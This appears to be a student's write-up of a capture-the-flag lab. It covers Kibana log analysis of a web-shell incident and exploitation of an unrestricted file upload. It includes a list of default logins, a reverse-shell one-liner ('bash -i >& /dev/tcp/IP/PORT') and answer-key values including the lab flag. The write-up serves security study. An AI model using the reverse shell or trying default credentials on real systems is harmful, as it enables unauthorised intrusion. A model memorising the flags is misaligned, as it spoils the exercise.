







# Log Analysis
The process of reviewing system logs to detect issues, monitor activity, and improve security and performance. 

## Day-3: Even if I wanted to go, their vulnerabilities wouldn't allow it.
In this task, we will cover how the SOC team and their expert were able to find out what had happened (Operation Blue) and how the Glitch was able to gain access to the website in the first place (Operation Red). Let's get started, shall we?


## OPERATION BLUE (Blue Team – Investigation)
-> What is Operation Blue?  
Focuses on investigating attacks, Uses tools to analyze logs, Helps understand how the attack happened.


## Log Analysis & ELK Stack
-> What is Log Analysis?  
Process of examining system logs. Helps to detect :
* Suspicious activity
* Attacks
* Errors

## What is ELK?

**ELK** -> **E**lasticsearch + **L**ogstash + **K**ibana

* Elasticsearch → Stores & searches logs.  
* Logstash → Collects & processes logs.  
* Kibana → Visualizes logs (UI dashboard).  

Purpose:  
* Combine logs from multiple systems.  
* Analyze them in one place.

## Using Kibana (ELK Interface)

Steps:
* Open: http://MACHINE_IP:5601

    > Go to → Analytics → Discover.  
    > Select Index Pattern (Log Collection).  
    > Example: wareville-rails.
    
Important: Time Filter  
Default = last 15 minutes (may show no logs...)  
Change to:  
* Start: Oct 1, 2024 – 00:00  
* End: Oct 1, 2024 – 23:30

## Kibana UI Components


-> Search Bar → Write queries (KQL).  
-> Index Pattern → Log collection.
-> Fields Panel → Shows log fields (IP, timestamp, etc.)  
-> Timeline → Activity over time.  
-> Logs/Documents → Actual log entries.  
-> Time Filter → Adjust time range.  

## 

| First Header  | Second Header | Third Header | 
| ------------- | ------------- | ------------ |
| " "  | Exact match  | "shell.php" | 
| *  | Wildcard| admin* | 
| OR  | Either condition |"UK" OR "USA"| 
| AND  | Both conditions  |"Ben" AND "25"| 
| :  | Field search  |ip.address: 10.10.10.10| 

## Investigating the Attack
-> Scenario:
1. Web shell uploaded on Oct 1, 2024.
2. Target: WareVille Rails.

-> Investigation Steps:
* Set time range → Oct 1 (full day)
* View logs
* Filter noise (normal traffic)
* Focus on suspicious IP
* Example: 10.9.98.230

-> Key Findings:
* High activity between 11:30 – 11:35

-> Suspicious file:
* shell.php

-> Parameters:
* c and d → likely commands

-> Conclusion:

* Web shell was used to execute commands

## OPERATION RED (Red Team – Attack)
-> What is Operation Red?  
Focuses on how attack was performed, Exploiting vulnerabilities.

-> Why Websites Allow File Uploads?
* To Upload Profile pictures.
* To Upload Documents.
* Uploading Receipts 

--> Introduce security risks !!!

## File Upload Vulnerabilities
Occurs when:
* No file type check..
* No size/content validation..
## Common Attacks:
1. **RCE** (Remote Code Execution)  
→ Run attacker’s code on server...  
2. **XSS** (Cross-Site Scripting)  
→ Steal cookies / data...  


## Unrestricted File Upload becomes Dangerous 

-> Allows attacker to upload:
* .php scripts.
* Executables.
* Malicious files.

-> It Leads to:
* Server takeover..
* Data theft..

## Using Weak Credentials

-> Common default logins:

* admin / admin
* guest / guest
* adminstrator / adminstrator
* admin@domainname / admin

--> Easy entry point for attackers

## What is RCE?
**R**emote **C**ode **E**xecution. An attacker runs code on server remotely getting full system control..

## What is a Web Shell?
It is a Malicious script that is uploaded to server after getting processed, It gives attacker remote access..

Capabilities:
* Run commands.
* Access files.
* Move inside network.


## Exploiting File Upload (RCE)
-> Steps:

* It creates a malicious file:
    * shell.php.
    * Upload as profile image.
    * File stored in server directory.


* Access via browser:

> /admin/assets/img/profile/shell.php

* Execute commands via input field

## Useful Commands After Access

| First Header  | Second Header |
| ------------- | ------------- |
|1. ls  | List files  |
|2. pwd  | Print working directory  |
|3. whoami  | Current user  |
|4. cat  | Reads file  |
|5. uname -a  | Systerm info |
|6. ifconfig  | Network info  |

## Advanced Attacks


-> Reverse shell:
> bash -i >& /dev/tcp/IP/PORT

->Privilege escalation:
* Find SUID files.
* Find writable files.


## Practical Summary
-> **Blue Team:**
Use Kibana (ELK) to:
* Analyze logs
* Detect attack
* Identify attacker behavior

-> **Red Team:**
Exploit:
* File upload vulnerability
* Weak credentials

-> Gain:
* RCE via web shell
---
**Answer the questions below**  
**BLUE:**  
Q-1 Where was the web shell uploaded to?
j
```
/media/images/rooms/shell.php
```
Q-2 What IP address accessed the web shell?

```
10.11.83.34
```
**Red:**
Q-3 What is the contents of the flag.txt?

```
THM{Gl1tch_Was_H3r3}
```
Q-4 If you liked today's task, you can learn how to harness the power of advanced ELK queries.
```
No answer needed
```
----